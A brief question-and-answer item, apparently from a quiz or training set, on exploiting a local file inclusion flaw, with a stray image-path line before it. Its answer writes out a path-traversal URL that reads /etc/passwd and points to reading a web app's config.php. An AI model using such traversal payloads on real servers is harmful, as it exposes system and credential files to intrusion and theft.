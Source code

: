 Question: A web application has an LFI vulnerability. Exploit it to read sensitive files.

Answer:

1. Identify LFI: http://example.com/?file=../../../../etc/passwd.
2. Use traversal techniques to access other sensitive files like /var/www/html/config.php.
